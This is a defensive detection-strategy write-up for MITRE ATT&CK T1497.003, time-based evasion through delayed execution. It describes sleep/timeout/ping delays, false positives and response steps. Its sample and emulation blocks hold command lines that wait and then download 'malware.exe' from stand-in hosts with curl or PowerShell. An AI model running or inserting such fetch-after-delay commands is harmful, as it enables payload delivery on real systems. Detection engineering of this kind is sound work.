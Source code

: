 # Alerting & Detection Strategy: Time-Based Evasion via Delayed Execution (T1497.003)

## Goal
The aim of this detection technique is to identify adversarial attempts to bypass security monitoring by using time-based evasion tactics. Specifically, it focuses on detecting scenarios where adversaries delay the execution of malicious code or commands to evade detection mechanisms that rely on timing patterns.

## Categorization

- **MITRE ATT&CK Mapping:** T1497.003 - Time Based Evasion
- **Tactic / Kill Chain Phases:** Defense Evasion, Discovery
- **Platforms:** Linux, macOS, Windows
- [MITRE ATT&CK Reference](https://attack.mitre.org/techniques/T1497/003)

## Strategy Abstract

The detection strategy involves monitoring for the use of time-based delay commands or scripts across different platforms. Data sources such as command-line logs, process monitoring data, and network traffic are analyzed to identify patterns that suggest delayed execution, which is indicative of evasion attempts.

Key patterns include:
- Use of sleep commands (`sleep`, `timeout`) in shell scripts.
- Pinging local or external hosts to create delays.
- Execution loops with time delays within scripts.

## Technical Context

Adversaries may employ time-based evasion by introducing artificial delays between the execution of malicious activities and their actual intended effects. This can help them slip past security measures that monitor for immediate, suspicious behavior. Real-world examples include:
- Using `sleep` or `timeout` commands in bash/shell scripts.
- Pinging localhost or external IPs to delay script execution.

**Sample Commands:**
```bash
# Example on Linux/macOS using sleep
echo "Starting attack sequence..."
sleep 300 # Delay for 5 minutes
curl http://malicious-site.com/malware.exe

# Example on Windows using timeout
@echo off
echo Starting attack sequence...
timeout /t 3600 >nul # Delay for 1 hour
powershell -Command "Invoke-WebRequest http://malicious-site.com/malware.exe"
```

## Blind Spots and Assumptions

- **Assumption:** Detection relies on logs being accurately recorded and available in real-time.
- **Blind Spot:** If adversaries use sophisticated obfuscation techniques or custom delay implementations, these may not be detected by standard pattern matching.
- **Limitation:** Not all legitimate uses of delay commands can be differentiated from malicious intent without context.

## False Positives

Potential benign activities that might trigger false alerts include:
- Legitimate software installations with post-installation scripts using delays for configuration purposes.
- Scheduled tasks or cron jobs with built-in wait times.
- Network diagnostic tools that use ping for latency testing.

## Priority
**Severity: High**

Justification: Time-based evasion can effectively bypass detection systems and allow adversaries to carry out malicious activities without immediate interference, posing significant risks to organizational security.

## Validation (Adversary Emulation)

### Step-by-step instructions:

1. **Setup Environment:** Prepare a controlled test environment with monitoring tools capturing command-line activities and network traffic.
   
2. **Delay Execution with Ping:**
   - On Linux/macOS:
     ```bash
     ping 127.0.0.1 -c 60 # Pings localhost for 60 seconds
     echo "Executing malicious activity..."
     curl http://example.com/malware.exe
     ```
   - On Windows:
     ```batch
     ping 127.0.0.1 -n 360 > nul # Pings localhost for 360 iterations (~3 minutes)
     @echo off
     echo Executing malicious activity...
     powershell -Command "Invoke-WebRequest http://example.com/malware.exe"
     ```

3. **Monitor Logs:** Check logs to ensure the delay and subsequent command execution are captured accurately.

## Response

Upon detection of a time-based evasion attempt:
- Immediately isolate affected systems from the network.
- Conduct a thorough investigation to determine the scope and impact.
- Review recent activities on the system for additional signs of compromise.
- Update security policies and monitoring configurations to enhance future detection capabilities.

## Additional Resources
Additional references and context are not available. Further research into specific evasion techniques and mitigation strategies is recommended to supplement this strategy.